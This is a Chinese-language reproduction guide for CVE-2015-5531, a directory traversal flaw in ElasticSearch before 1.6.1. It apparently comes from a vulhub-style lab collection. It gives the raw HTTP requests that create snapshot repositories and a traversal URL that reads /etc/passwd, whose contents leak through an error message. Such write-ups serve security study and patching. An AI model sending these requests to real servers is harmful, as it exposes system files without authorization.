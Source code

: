 （CVE-2015-5531）ElasticSearch 目录穿越漏洞
===========================================

一、漏洞简介
------------

elasticsearch
1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

二、漏洞影响
------------

ElasticSearch 1.6.1以下

三、复现过程
------------

### 1. 新建一个仓库

    PUT /_snapshot/test HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test" 
        }
    }

![](resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId25.png)

### 2. 创建一个快照

    PUT /_snapshot/test2 HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
        }
    }

![](resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId27.png)

### 3. 目录穿越读取任意文件

访问
`http://www.0-sec.org:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![](resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId29.png)

如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

![](resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId30.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2015-5531/
